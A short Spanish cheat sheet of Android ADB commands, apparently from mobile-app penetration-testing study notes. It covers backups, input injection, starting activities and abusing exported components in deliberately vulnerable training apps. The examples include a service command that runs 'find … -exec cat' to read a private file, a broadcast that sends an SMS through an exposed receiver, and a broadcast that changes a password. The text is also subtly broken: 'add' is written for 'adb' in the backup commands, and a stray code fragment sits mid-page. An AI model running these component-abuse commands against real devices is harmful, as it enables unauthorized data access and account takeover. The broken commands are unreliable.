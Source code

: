 #### Realizar un backup de una aplicación
```
add backup -apk <PACKAGE_NAME> -f backup.ab
```

#### Restaurar un backup
```
add restore backup.ab
```

#### Enviar pulsaciones de teclado al dispositivo
```
adb shell input <text|keyevent>
```

#### Iniciar un Activity
```
adb shell am start -n [PAQUETE-APLICACION]/.[ACTIVITY]
adb shell am start -n com.example.android.notepad/.NotesList


adb shell am start -a [ACTION-NAME] -n [PAQUETE-APLICACION]/.[ACTIVITY]
adb shell am start -a android.intent.action.MAIN -n com.example.android.notepad/.NotesList


adb shell am start -a [ACTION-NAME] -n [PAQUETE-APLICACION]/.[ACTIVITY] -d [SCHEMA]://[AUTHORITY]/[PATH]/[ID]
adb shell am start -a android.intent.action.EDIT -n com.example.android.notepad/.NoteEditor -d content://com.google.provider.NotePad/notes/1
```

#### Iniciar un Service para ejecutar un comando y leer el contenido de un archivo
```
adb shell am startservice -n [PAQUETE-APLICACION]/.[NAME-ACTIVITY] -e [EXTRA_KEY] [EXTRA_VALUE]

adb shell am startservice -n com.elearnsecurity.sillyservice/.SillyService -e COMMAND "'find /data/data/com.elearnsecurity.sillyservice -name private.txt -type f -exec cat {} \;'"
```TRA_VALUE]
```

#### Enviar un broadcast de un Receiver dentro de un Activity, para enviar un mensaje de texto:
```
adb shell am broadcast -a [RANDOM-NAME] -n [PAQUETE-APLICACION]/.[NAME-ACTIVITY] --es [EXTRA_KEY] [EXTRA_VALUE]
adb shell am broadcast -a EsmiBroadcast -n org.owasp.goatdroid.fourgoats/.broadcastreceivers.SendSMSNowReceiver --es phoneNumber 4321 --es message "Prueba XD"
```

#### Enviar un broadcast solamente dentro de un Receiver, para cambiar password:
```
adb shell am broadcast -a [ACTION-NAME] --es [EXTRA_KEY] [EXTRA_VALUE]
adb shell am broadcast -a com.elearnsecurity.vulnerablereceiver.CHANGEPW --es PASSWORD 1234
```
